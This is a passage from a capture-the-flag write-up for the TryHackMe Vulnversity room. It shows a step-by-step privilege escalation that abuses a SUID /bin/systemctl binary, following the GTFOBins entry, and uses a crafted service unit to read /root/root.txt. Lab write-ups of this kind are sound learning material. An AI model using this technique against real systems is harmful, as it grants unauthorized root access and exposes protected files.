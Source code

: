 The SUID files is located on /bin/systemctl

### Task 5-2: Capture the root flag

This task is a little bit challenging. A big thanks to Paradox and Darkstar from the tryhackme discord channel, I'm able to solve this challenge by using a tool called GTFObins. You hear me, is GTFO or get the freakout :)

This task requires [systemctl from GTFObins](https://gtfobins.github.io/gtfobins/systemctl/). At first glance, you are given two choices to exploit the machine using either SUID or SUDO. However, the machine can't work with sudo way and we have to go for SUID way.

For SUID way, you need to mess around with the shell. Do not let the sudo trick you! You can run the shell in the /bin directory without copying or cp the /bin/systemctl. Here are the steps:

- Step 1: Move to /bin directory

```
cd /bin
```

- Step2: Open a shell right inside the /bin

```
sh
```

- Step 3: Copy the script into the shell

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

- Step 4: Read the content in /tmp/output

```
cat /tmp/output
```

![root](/assets/images/THM/2020-08-08-vulnversity/15.png)
